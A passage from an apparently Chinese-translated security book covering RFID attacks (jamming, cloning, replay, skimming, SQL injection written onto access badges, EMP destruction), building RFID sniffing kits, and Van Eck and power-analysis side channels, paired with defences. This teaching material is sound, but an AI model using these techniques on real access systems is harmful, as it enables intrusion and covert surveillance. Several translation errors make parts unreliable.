目前绝大多数 RFID 应用使用在低频或 LF（120–134 kHz）和射频或 RF（13.56 MHz）频段运行的被动标签（转应器）。因此，它们的工作距离从几英寸到三英尺不等。

# RFID 频率标准

负责频率分配的主要各方列列在此处：

- 美国联邦通信委员会 (FCC)
- 加拿大通信部 (DOC)
- 欧洲欧洲无线电局 (ERO)、欧洲邮政和电信管理局会议 (CEPT)、欧洲电信标准协会 (ETSI)
- 日本公共管理省 (MPHPT)
- 中国信息工业部
- 澳大利亚经济发展发展部
- 国际/私有 Legic, Philips, MIFARE

低频 (LF) 标签运行在 120–140 kHz 左右，最常见于近距离访问控制实现和动物标记。

高频 (HF) 标签运行在工业-科学-医学 (ISM) 频段内的 13.56 MHz 。它们通常比 UHF 大，传输距离仅为约二英寸到三英尺。

超高频 (UHF) 标签通常运行在 868–956 MHz 频段。其他设备如无线电话也在此频谱内运行。UHF 标签被广泛用于 EPC Global 供应链和其他零售应用。UHF 的主要缺点之一是它对水和金属敏感。

# 技术标准

许多 RFID 系统基于私有协议。此类私有系统会导致供应商锁定；换句话说，你必须从同一供应商处购买读取器和标签。国际标准组织（ISO）规定了大多数 RFID 标准。这些标准确保来自一个供应商的遵循标准的设备可以与其他供应商的设备协同工作。

# 第 10 章：RFID–无线频率识别

RFID 的 ISO 标准列表：

- ISO 11784, ISO 11785：动物射频识别——代码和命令结构
- ISO 14223/1：动物射频识别——空气接口
- ISO 10374：容器识别
- ISO 10536：耦合集成电路卡
- ISO 14443：近距离集成电路卡
- ISO 15693：远距离集成电路卡
- ISO 18000：物品管理的 RFID

EPC Global, Inc. (*EPC 代表电子产品码*）是一个规范 RFID 系统 协议和数据格式的论坛。某些 EPC 规范基于 ISO，例如 ISO 15693，而另一些规范实际上已从 EPC 推入 ISO 流程，现在发布为 ISO 18000（C 型）。EPC 关注条形码的替代，但也可用于其他环境。

# RFID 攻击

与其他技术一样，实施技术的意愿超过了安全实施技术的意愿。RFID 在达到其他技术的市场级使用之前存在一些与之相关的问题。

## 信号干扰攻击

| 流行度 | 1 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 10 |
| 风险评分 | 5 |

此类攻击的目标是压制射频场，使得近距离 RFID 标签的通信无法使用。如果攻击者使用足够的功率，她可能会禁用整个仓库 RFID 标签的通信。

这种攻击对 RFID 业务应用产生严重影响。一个例子是在大型零售店进行的信号干扰攻击。零售商可以使用 RFID 标签跟踪货运和库存，并可能在标签上存储价格和其他信息。成功的攻击者使用 RFID 干扰设备和非法过载天线干扰了这一过程，将使 RFID 系统收集的数据变得不可靠，迫使该地点回到纸笔记录系统来确认库存。

# 防止信号堵持攻击

遵循标准的物理安全程序。如果不定期对周围区域进行物理检查，这类攻击将很难检测。信号堵持攻击可能使用隐藏的、定时激活的便携设备，因此安全人员必须经过训练，能够发现环境的变化，而不仅仅是发现未经授权的个人。

被标记对象的位置或状态的所有更改都应由涉及变更的双方共同确认。如果批发商向零售商交付产品，则传输的数量将记录在发票上。如果任何一方发现差异，请进行调查。在与外部供应商打交道时，这是一个显见的策略，因为将对交付的货物进行支付，但这种策略也应应用于内部。如果物品从后室移动到展厅，请通过更改两个位置的库存数量来确认移动。

# 针对防碰撞攻击的 DoS 攻击

| | |
|---|---|
| 流行度: | 3 |
| 简单性: | 4 |
| 影响: | 10 |
| 风险等级: | 6 |

任何现代 RFID 系统都支持在一个读写器工作范围内的多个标签。因此，相应的 RFID 协议需要提供一种分离机制，通过该机制，读写器可以枚举可用标签并激活/禁用范围内的任何单个标签。分离机制也被称为*防碰撞*。

如果攻击者在防碰撞期间向读写器发送特殊制制的信号，或者他通过模拟范围内无限数量的标签对读写器实施 DoS（拒绝服务）攻击。这种攻击的细节取决于具体的协议，但几乎所有的 RFID 防碰撞系统都存在一种可能的攻击向量。

# 防止防碰撞 DoS 攻击

遵循标准的物理安全程序。由于 RFID 标签只能在短距离内读取，此类攻击的主要预防措施是保持资产的物理安全。屏障——例如金属板——也可以为这些被标记的资产增加安全性，因为这些屏障会干扰无线频率的传输。然而，使用更高功率发射器的攻击者即使在标签被屏蔽的情况下，也将继续成功读取这些标签。

# 位置攻击

| 流行度 | 1 |
| --- | --- |
| 简单性 | 8 |
| 影响 | 3 |
| 风险等级 | 4 |

这类攻击使攻击者能够根据已知的返回信息定位或跟踪带有 RFID 标签的资产。例如，某些 RFID 标签使用加密算法对数据加密，使其不可读。然而，在标签解锁之前，它们会传输一个明文哈希值，该值可用于识别攻击者。


对于以明文存储 UID 的标签也是如此。这为攻击者提供了跟踪资产的能力。在大多数情况下，UID 不会专门识别某个人，但在 UID 匹配到特定个人后，它可以允许你跟踪并识别该人员。如果 UID 会变化，则不如此（例如某些远程车库门器，它们在每次使用时都会生成新的 UID）。然而，由于技术和 RFID 响应器的空间限制，大多数 RFID 应用将不具备这种能力。

# 防止位置攻击

遵循标准的物理安全程序。RFID 标签只能在短距离内读取，此类攻击的主要预防措施是保持资产的物理安全。屏障——例如金属板——也可以增加被标记资产的安全性，因为这些屏障会干扰无线频率的传输。然而，使用更高功率发射器的攻击者即使在标签被屏蔽的情况下，也将继续成功读取这些标签。

遵循标准的网络安全程序。位置攻击收集的信息本身可能用处有限，但通过这些攻击收集的信息可能用于促进额外的网络入侵。

# 输入验证攻击

| 流行度 | 7 |
| --- | --- |
| 简单性 | 5 |
| 影响 | 10 |
| 风险等级 | 7 |

这是适用于标准网络应用和数据库后端的相同基本攻击。使用空气协议接口，攻击者可能能够在标签上创建恶意内容，或者通过使用非法的读写器或写入器来模拟和修改 RFID 标签。

此类攻击的示例可以在用于访问安全区域和建筑的近场卡或胸牌找到。大多数近场卡包含一个设施代码和一个用户 ID。唯一的用户标识码和设施代码被读写器捕获，然后发送到后端进行处理。设施代码和 ID 与每个区域的访问控制相匹配，并授予或拒绝访问。攻击者可以在卡片上的用户或设施代码数据中写入 SQL 注入代码，从而在无需克隆卡的情况下获得访问权限。如果成功，攻击者将能够绕过大多数 RFID 近场控制的安全性。

# 防止验证攻击

遵循标准的物理安全程序。在访问卡或胸牌的情况下，防止此类攻击的最好系统是训练设施用户警惕周围环境，并报告未知人员的出现或任何其他异常活动。

用于控制访问的系统应将广泛的信息作为验证计划的一部分，包括当前时间、上次访问时间、最近访问次数等，以确定异常活动模式，并对超出既定模式的访问尝试发出挑战。

遵循标准的网络安全程序。这类攻击取决于故障的组合——受损害的 RFID 标签和弱化的访问控制应用程序。受损害的 RFID 标签可以通过强大、安全的访问控制应用程序来抵消。

# 克隆攻击

| 流行度 | 1 |
| 简单性 | 1 |
| 影响 | 10 |
| 风险等级: 4 |

这种攻击涉及攻击者距离标签足够近以便读取并理解数据。一旦知道这些信息，攻击者就可以 RFID 写入器创建一个新标签。空白标签通常不对公众开放。

除非使用加密身份验证，否则任何 RFID 标签都可以通过硬件和软件进行模拟。攻击者将使用克隆的标签访问建筑或操纵物品价格，取决于具体的应用。

# 第 10 章：RFID–无线射频识别

# 309

# 防止克隆攻击

遵循标准的物理安全程序。读取标签数据需要设备和物理距离；所有涉及电子设备的异常活动都应进行调查。通常携带电子设备的人员（例如公用事业或电话维护员工）在允许进入使用 RFID 标签的区域之前，应经过安全人员的。。

遵循标准的网络安全程序并确保使用 RFID 标签的应用程序本身是安全的安全的应用程序可以限制受损害 RFID 标签可能造成的潜在损害。

# EMP 标签破坏攻击

| 流行度: | 6 |
| 简单性: | 2 |
| 影响: | 3 |
| 风险等级: | 4 |

攻击者可以通过过载标签中内置的天线和射频前端来远程物理销毁标签。这种方法已被证明在 LF 和 RF 频段的磁耦合 RFID 系统有效，包括电子护照。短电磁脉冲（EMP）足以破坏电容器；齐克二极管（以齐克电压命名）是一种允许电流在正向和反向方向流动的二极管；或标签输入电路中的其他功能。标签将永久损坏，通常无法恢复或修复

这种攻击取决于感应足以烧毁输入天线的电磁场强度。这意味着攻击者离得很近（距离天线几英寸），或者他们在使用巨大的发射器。实际脉冲的持续时间只有几分之一秒。因此，使用传统的三角测量技术定位 RFID 电击设备非常困难。

# 防止防止 EMP 标签破坏攻击

遵循标准的物理安全程序。通过过载破坏标签需要特殊设备且通常需要物理距离；所有涉及电子设备的异常活动都应进行调查。通常携带电子设备的人员（例如公用事业或电话维护员工）在允许进入使用 RFID 标签的区域之前，应经过安全人员的。在某些应用中（如访问控制或电子护照），标签在不使用时可以放在保护性金属箔袋中。

# Hacking Exposed Linux：Linux 安全秘密与解决方案

## 扫描窃取/窃听攻击

| 流行度: | 8 |
| :--- | :--- |
| 简单性: | 4 |
| 影响: | 2 |
| 风险评分: | 5 |

扫描窃取是被动进行的，不会发送任何数据。这种攻击几乎无法被检测，但它要求非法读取器具备通过已知空中通信协议与 RFID 标签和读取器进行通信的能力。这可以通过在 RFID 通信发生的区域放置窃取设备来实现。窃取器将仅处于被动状态且不传输数据。如果构建正确，它可以获取由 RFID 标签发送的信息并在日后将其检索。

## 预防扫描窃取/窃听攻击

遵循标准的物理安全程序。由于 RFID 标签只能在短距离内被读取，此类攻击的主要预防措施是从物理上加固所有使用 RFID 标签的区域。此外，将标签中包含的数据限制在绝对必要的范围内。妥善利用加密技术，并对任何可以加密的内容进行加密。遵循标准的网络安全程序。从标签中恢复的信息也可以作为传统网络攻击的一部分。

## 重放攻击

| 流行度: | 2 |
| :--- | :--- |
| 简单性: | 1 |
| 影响: | 5 |
| 风险评分: | 3 |

这种攻击通过捕获标签到读取器的会话来实现，并可以简单地重放以获取访问或执行其他操作。这种攻击可以与窃听攻击结合来获取数据。本质上，捕获的会话是通过软件重放的——即使跨远距离。如果攻击者可以在远程位置获取一个卡，而第二个攻击者可以实时站在目标读取器前，RFID 内容可能会透明地发送到读取器，从而允许访问。

## 预防重放攻击

遵循标准的物理安全程序。记住，RFID 标签和用于读取这些标签的设备都包含可能有价值的信息。同样要遵循标准的网络安全程序。一旦传输的数据被记录，重放攻击就可以绕过 RFID 读取器并直接访问应用程序软件。

# 第 10 章：RFID——射频识别

## RFID 黑客工具箱

你可以轻松从公共渠道获取 RFID 黑客工具箱。首先，购买一个读取器与目标标签进行通信。选择哪种读取器取决于频率和 ISO 标准。大多数情况下，合适的读取器可能是 CompactFlash (CF) 格式，并用于手持设备。

大多数读取器使用串行程序进行通信。这些程序使得构建简单的脚本和黑客工具变得容易。厂商协议规范和示例应用程序也有助于对每种实现方式的理解。

一旦获取了读取器，下一步是构建自定义天线。市面上有现成的天线，但对于远距离攻击，你需要构建自定义天线。此外，你还需要根据你将扫描的频率构建相应的天线。要读取 13.56 MHz 的 RFID 标签，你需要一个能够接收 22.12 米波长的天线，这使得精确读取变得困难。最好的结果将来自小型天线。为了获得 30 cm 处的读取数，你需要一个周长约为 40 cm 的铜管环天线。

构建读取器或窃取器本身并不困难；但对于电子经验较少的人来说，作为第一个项目可能会遇到困难。幸运的是，大多数这些设备也以套件的形式出售。如果你有动力破解天线以获得更远范围，那么制造标签公司的商业套件也是一个可行的方案。

## 使用 Linux 实现 RFID 系统

由于 RFID 系统众多，且每个系统都基于自己的标准和协议，因此关于如何使用 Linux 实现 RFID 系统并没有通用说明。因此，本节将重点介绍与 Linux 和 RFID 相关的各种项目和解决方案。

## 连接到 Linux 系统的 RFID 读取器

在此种配置中，一个或多个 RFID 读取器连接到基于 Linux 的 PC。不幸的是，相似性仅此于此。即使对于使用同一种标准/协议（例如 ISO1443）的 RFID 系统，也没有通用的通信协议、USB 设备驱动架构或软件接口。

大多数读取器在读取器固件内部实现了 RFID 协议栈的一部分，并在上方提供一个相对抽象的通信接口。通信接口通常基于串口端口的概念，即使读取器硬件并没有连接到物理串口端口。某些 USB 读取器甚至实际上包含内置的 USB 转串口转换器。另一些则进一步模拟 USB 串口适配器（CDC ACM 或类似）。即使是 CompactFlash/PCMCIA 读取器通常也有内置的遗留串口端口或模拟的真实 USB 串口转换器。所有这些读取器最终都通过串行设备节点（如 `/dev/ttyS0`、`/dev/ttyACM0` 或 `/dev/ttyUSB0`）进行访问。

其他读取器制造商决定让他们的读取器模拟符合 USB 芯片卡接口设备（CCID）规范的接触式芯片读取器。此类读取器随后由 `pcsc-lite` 软件包驱动，就像接触式芯片读取器一样。

另一些较新的读取器，特别是廉价的读取器，在 PC 端的驱动程序中实现 RFID 协议栈。这模仿了网络世界的概念：以太网卡并不运行协议栈；而是 Linux 操作系统运行 TCP/IP 协议栈。此类读取器的示例有 Omniikey CardMan 5121/5321 和 OpenPCD。这种设计简化了硬件要求并降低了开发。此外，由于所有协议逻辑都运行在 PC 上，可以实现新的协议或针对标签的规避方案。对于安全分析师来说，这种读取器提供了协议的高级接口。

## 嵌入 Linux 的 RFID 读取器

此类读取器通常提供到网络的接口。由于整个读取器硬件和固件都是开放的，这种读取器对安全研究人员来说特别有趣。每个传输的位（包括定时）都可以被控制。因此，使用 OpenPCD 你可以轻松地发送畸形包、违反状态转换，甚至对 RFID 标签进行模糊测试。

OpenPCD 项目是 OpenMRTD 项目的补充。OpenPCD 是一个用于 13.56 MHz RFID 读取设备的开源项目。读取器硬件设计根据知识共享许可协议发布，可以在不支付任何许可费用的情况下制造。如图 10-3 所示的现成 OpenPCD 读取器可以从该项目的在线商店购买。读取器固件基于 `librfrid`（见前面的章节）。由于读取器使用的微控制器具有大量的额外内存和 CPU 能力，你可以将 OpenPCD 作为一个独立的读取器，在读取器固件内部运行用户应用程序，无需外部 PC。

## 作为后端/数据库服务器的 Linux 系统

在这种，基于 Linux 的系统被用作以网供电（POE）的一部分，类似于 WiFi 访问点。通常，这种读取器提供了网络接口的优势。特别在供应链/物品管理环境中，我们可能会看到以太网的读取器。

OpenPCD 项目还开发了一个名为 `rfiddump` 的硬件设备。

此类 Linux 与 RFID 的关联非常微小，它超出了本书的范围。

## Linux 与 RFID 相关的项目和产品

Linux 作为“黑客乐场”的特性延伸到了 RFID 项目。涉及 Linux 和 RFID 的开源项目数量稳定增长，某些项目非常值得关注。

## OpenMRTD

OpenMRTD 项目正在开发用于机读护照（MRTD）的开源软件。作为这项工作的一部分，OpenMRTD 正在开发一个针对 ISO 14443 A 和 B 的完整 RFID 栈，名为 `librfrid`

`librfrid` 项目是 13.56 MHz RFID 协议栈唯一的自由软件实现，扩展到了其他协议，如专用 MIFARE 和 DESFIRE 标签。ISO 15693 支持仍在开发中。`librfrid` 支持 OpenPCD 和 Omnikey USB 读取器硬件。通常，它作为 Linux PC 上的共享库，与没有固件 RFID 栈的“哑”读取器结合。更多信息请参阅：

- openmrtd.org/
- openmrtd.org/projects/librfrid/index.html
- openmrtd.org/projects/libmrtd/index.html

# Hacking Exposed Linux：Linux 安全秘籍与解决方案



图 10-3 Open PCD 首次发布



图 10-4 RFID 嗅器

# 第 10 章：RFID——射频识别

更多信息请参阅：

- * http://www.openpcd.org/
- * http://www.openpcd.org/releases.0.html
- * http://www.openpcd.org/rfiddump.0.html

# OpenPICC

OpenPICC 是一个 13.56 MHz RFID 响应器，如图 10-5 所示。通过 OpenPICC，你可以模拟 ISO 14443 或 ISO 15693 响应器。安全分析师可以使用此设备进行克隆攻击，以及中间人攻击或代理攻击。与 OpenPCD 一样，其硬件原理图和设备固件是在宽松的开源许可下发布的。

更多信息请参阅 http://www.openpcd.org/openPICC.0.html。

# Magellan Technology

位于澳大利亚悉尼的 Magellan Technology 在许多 RFID 系统中使用了嵌入式 Linux。Magellan 的意图是提供基于口袋的应用程序接口，他们认为 Linux 对网络化应用的支持优于任何其他操作系统。Magellan 认为基于字字的应用程序接口增加了 RFID 系统的可携性和易用性。

信息请参阅 http://linuxdevices.com/articles/AT8383852366.html。

# RFIDiot

RFIDiot 是一个用于探索 RFID 设备的 Python 库。它支持来自 AC 和 Omnikey 的许多 LF 和 HF 读器，连接串口、USB 和 PCMCIA 端口。由于所有读器都在固件中实现 RFID 协议，因此 RFIDiot 支持许多 RFID 响应器，包括 MIFARE、DESFIRE、HITAG、ISO14443A/B、ISO15693、Tag-It、I-CODE 等。

更多信息请参阅 http://rfidiot.org。

# RFID Guardian

RFID Guardian 是一种移动电池供电的设备，为个人提供个人 RFID 安全和隐私管理。它代表消费者监控并调节 RFID 的使用。RFID Guardian 供个人使用；它管理人员物理范围内的 RFID 标签。它执行双向 RFID 通信。它可以像 RFID 读器一样工作，查询并解码标签，它也可以模拟 RFID 标签，允许它与其他 RFID 读器进行带内通信。这种双向属性使其成为 RFID 安全分析的极佳设备。

更多信息请参阅 http://www.rfidguardian.org。

# OpenBeacon

OpenBeacon 项目是一个基于 2.4 GHz 的自定义主动式 RFID 系统，范围高达 320 英尺（见图 10-6 和 10-7）。标签包含一个可自由编程的 PIC 微控制器。读器通过 USB 连接。驱动程序和开发环境作为 GPL 许可的自由软件提供给 Linux 使用。

更多信息请参阅 http://www.openbeacon.org。

# Omnikey

Omnikey 提供带有 USB 接口的 13.56 MHz RFID 读器（如图 10-8 所示）。提供并支持专有的、仅二进制的 x86 Linux 驱动程序。驱动程序围绕 PC/SC API 展开，这在接触式智能卡世界为人知。

更多信息请参阅 http://www.omnikey.com。

# Linux RFID Kit

Embedded Planet RFID Kit 旨在让 OEM 创建 RFID 应用程序原型，这些原型可以轻松转换为生产级应用。它包含了硬件（带有嵌入式 Linux）、一个 RFID 读器和一个示例 RFID 应用程序。



图 10-6 CCC Sputnik 标签



图 10-7 OpenBeacon USB 节点



图 10-8 OpenPICC 智能卡读器

更多信息请参阅 http://www.technologewsdaily.com/node/845。

> 注意：关于其他 Linux RFID 套件的信息，请参阅 http://www.open-mag.com/00133844916.shtml。

### 总结

RFID 允许公司执行以前使用条形码等技术时无法实现的功能。RFID 连接并整合了整个供应链，提供了实时跟踪并解决了库存问题。尽管如此，的一些 RFID 应用被用于侵犯个人隐私（例如，“追踪器 (The Thing)”）。

尽管 RFID 非常有用，但它也带来了新的漏洞。某些攻击仅仅是从其他技术迁移并应用于 RFID 的，而另一些则是对 RFID 技术的原始利用。

从现实来说，供应商应该始终考虑 RFID 技术的安全影响，并最初实施基础的安全功能。然而，情况往往并非如此。运营资产的优先级几乎总是高于安全问题，因此安全专业人员必须开发解决方案来保护下一代 RFID 网络。

大多数已部署的 RFID 系统没有足够的内置安全功能。RFID 系统供应商通常不假设环境是敌意的。然而，随着更多（部署），因此，新的 RFID 部署应该有明确的安全重点。IT 行业的大人都理解，通过隐蔽来实现安全不是一种可行的策略。然而，基于隐蔽式安全的专有 RFID 系统仍然随处可见。具有安全意识的 IT 专家无疑更喜欢基于公开文档和经过良好研究的协议及加密算法的系统。

每个人都应该记住传输功率是许多 RFID 攻击的关键。攻击者在这方面始终具有优势，因为他们可能会使用超过监管批准范围的传输功率。

## 第 11 章：发射攻击（Emanation Attacks）


长期以来，我们知道观察或影响任何事物只有四种。在 OSSTMM 中，这些被归类为感应（Induction）、查询（Inquest）、交互（Interaction）和干预（Intervention）。最常用的是交互的触发测试属性：如果我碰它，会发生什么？

## 感应、查询与干预

**感应（Induction）**是对环境对目标影响的研究。服务器在网络环境中运行表现如何？电磁辐射是否会与组件的操作产生冲突？引入另一个硬盘是否会干扰服务器系统的风流，从而缩短其功能寿命？

**查询（Inquest）**是对目标发射信号的调查。通过服务器创建的临时文件或占用的内存空间，你可以获取关于服务器的什么信息？通过测量 IP 数据包中分片标识符（IPID）的非随机增量，可以服务器每小时产生多少流量？DVD 的盗版正是通过查询 DVD 软件来解密 DVD 内容实现的。

**干预（Intervention）**是对目标所依赖的过程或资源的操纵。服务器是否会接受内存值的改变？缓冲区溢出、堆溢出以及大量的 Web 服务器 Cookie 操控工作都是由干预引起的。

其他三种观察或影响目标属性的方法通常被标记为**侧道攻击**。如果指的是直接接触，这种说法是正确的。然而，由于任何个人、系统或过程对其他事物都存在巨大的依赖，间接攻击也是完全有效的：如果数据中心没有电力，它有什么用？如果信息被留在其下方的页面上，是什么在烧毁信息？所有目标及其过程都需要进行侧道测试，以发现实现的局限性。以下是一些较为极端的侧道攻击示例，用以展示在看似不可能的情况下可能发生的事情。话虽回来，概率是风险计算的结果，而不是安全性。

## 范埃克破解（VAN ECK PHREAKING）

1985 年，荷兰研究员维姆·范埃克（Wim Van Eck）在《计算机与安全》杂志上发表了一篇名为《视频显示单元的电磁辐射：窃听风险的发射？》的论文。在文中，他详细描述了如何截获设备的电磁发射，以呈现屏幕上显示的内容。

## 破解暴露的 Linux：Linux 安全秘密与解决方案

虽然故意无线电频（RF）发射的安全问题是众所周知的（如无线网络），但无意的发射也会导致安全泄露。其物理原理完全相同：通过天线通过电流产生电磁辐射。唯一的区别在于，对于故意的 RF 发射，天线是刻意的、独立的设备，专门且优化地以特定的频率和波长发射。

在范埃克实验中，天线是在与 CRT（显示器）内部扫描的电子束对齐所需的线圈中产生的。这些磁线圈将扫描电子束指向玻璃上正确颜色的荧光涂层。这些电磁线圈的高频调制产生与标准地面电视广播信号非常相似的 RF 流，只是缺少同步数据。如果从外部源应用这种同步，重建原始图像就是轻而易举的。

这篇引人入胜的原始论文在该主题上提供了深度，包含了完整的实验验证，以及任何反思型物理极客所需的全部方程和波形。

范埃克在 CRT 屏幕上演示了这一原理，尽管计算机的许多不同区域都涉及通过线路的电流，例如线键盘、VGA 或 DVI 线缆、外部驱动器、网络连接等。这些每一种都会产生某种形式的 RF 发射；这只是调节接收设备来捕捉它们的问题。

## 构建范埃克破解设备

| 流行度 | 1 |
| --- | --- |
| 简单性 | 1 |
| 影响力 | 10 |
| 风险等级 | 4 |

如果我们只能根据论文中给出的 20 年前的示例来行事，生活将是多么无趣呢？更直接一点说，如果我们不能自己对其进行测试，我们又如何知道自己的显示器有哪些安全漏洞呢？

我们提到，世界上大量的执法机构对未经授权窃听他人的私人通信持非常反感的态度。了解在您所在的地区制造或拥有范埃克成像器的合法性和伦理问题至关重要。

Eckbox 项目可以在 http://sourceforge.net/projects/eckbox 获取，它包含了解码信号的 Linux 源代码以及一个需要在目标机器上运行的程序。除非上面运行了 `bw`，否则它不是真正的无线范埃克设备。

硬件构建完成后，将收音机调到当前可用的最高 FM 频率（可能在 108 MHz 范围内）。你应该从扬声器中听到一些静态白噪音。

将整套设备连接到监控 PC，将收音机放置在你想要破解的系统附近（该系统正在运行 Eckbox 软件自带的 `bw`），并运行 Eckbox 来解码信号。原始图像的表示应该出现在监控 PC 的屏幕上。

## TEMPEST 与击败范埃克

大多数人听过的范埃克破解方面是 TEMPEST。在很多情况下，TEMPEST 被错误地归认为一个缩写，产生了一些非常扭扭的产物，例如，“免于产生伪干扰传输的受电信电子材料保护”或“瞬态电磁脉冲发射”。

事实上，TEMPEST 是一个代号，并没有实际含义；它使用代号的标准惯例进行大写。对于任何源于秘密组织后室的事物，其确切起源都笼罩在神秘之中，被归于美国国家安全局（NSA）和英国的 CESG。TEMPEST 的早期引用可以追溯到 1953 年——当时对麻理工学院的 Whirlwind 1 计算机进行了声学测试，以确定程序的执行状态。

由于英美政府都投入了大量的时间和资源来确保安全系统符合其发射方面的标准。这些标准统称为 TEMPEST。

减少 RF 发射安全风险的方法四种：

- 屏蔽（Screening）：对系统进行足够的屏蔽以防止 RF 发射泄露，将防止任何人窃听。这可以通过厚金属外壳实现，外壳上的孔相对于波长足够小，以防止波长泄露。显然，对于屏幕来说，你需要一个较大的孔来观察，这种解决方案并不看起来简单。下一个阶段是将机器所在的整个房间封装在法拉笼内。这种笼由小于要保留辐射波长的导金属或金属网组成。它吸收辐射并通过网格耗散，而不是仅仅通过厚度来减轻其影响。
- 过滤（Filtering）：延伸到控制边界之外的电缆（例如连接到电话线）可以作为伪信号的通道。在这种情况下，你应该放置过滤器仅允许合法数据通过。
- 数字化（Digitizing）：将信号从模拟转换为高频数字使其更难以拦截产生的发射。结合线路上的任何形式的加密，这将变得几乎不可能。

> 其中 NSA 代表美国国家安全局，CESG 代表英国政府通信司令总部（GCHQ）的通信电子安全小组——以防你不知道。

# 攻防 Linux 安全：Linux 安全秘密与解决方案

非电传输介质：光纤没有可检测的射频（RF）发射，它们是高安全性通信的理想选择。

# 其他“侧信道”攻击

Van Eck 攻击是最著名的泄露攻击，但在无法直接访问系统的情况下，还有许多方法可以收集有关系统的额外数据。

# 功耗攻击

| 流行度: | 1 |
| :--- | :--- |
| 简单性: | 1 |
| 影响: | |
| 风险等级: | 1 |

设备的功率消耗取决于任何给定时间处理的数据量和类型。将这一段时间内的变化绘制成图，可以对正在进行的工作性质提供大量见解，并在某些情况下提供关于正在处理的数据大小和可能数量的线索。通常，此类攻击对于单一目的嵌入式系统（如智能卡）更有用，但对于任何需要绝对安全的系统，都不应忽视其总体原理。

P. Kocher、J. Jaffe 和 J. Jun 在 1998 年发表于《密码学进展》的论文《差分功耗分析》，展示了针对智能卡上 DES 加密方法的攻击。该攻击成功从功耗数据中提取了大量信息。

# 击败功耗攻击

击败此类攻击有两种显而易见的解决方案。首先，通过带有浪涌滤波器的 UPS（不间断电源）过滤电源通道，防止信息可用。这种技术在电气系统上显示出恒定的功率消耗，无论计算机的实际消耗如何。

另一种方法是在方程中引入尽可能多的伪数据，通过在代码中引入暂停和等待，或者与你的安全程序同时运行多次，或者最好是两者兼顾。

第三种不那么明显的解决方案是在随机时间间隔内更改 Linux 系统的功耗。关于频繁且随机更改电压状态对 CPU 及其他硬件组件的影响，尚未没有研究。现代笔记本电脑会动态更改电源状态以节省电池电；因此，这种解决方案可能是完全可行的。

# 第 11 章：泄露攻击

Linux 提供了一种通过高级配置与电源接口（ACPI）来实现此的方法。较新的内核将电源信息放在 `/sys` 设备中。较旧的版本则将此信息放在 `/proc/acpi` 目录中。

ACPI 最小化功耗攻击成功率的主要配置点如下：

- **电源管理**：当电源管理可用时，ACPI 系统可以将 CPU 置于睡眠状态，以最小化对 CPU 的功耗消耗。
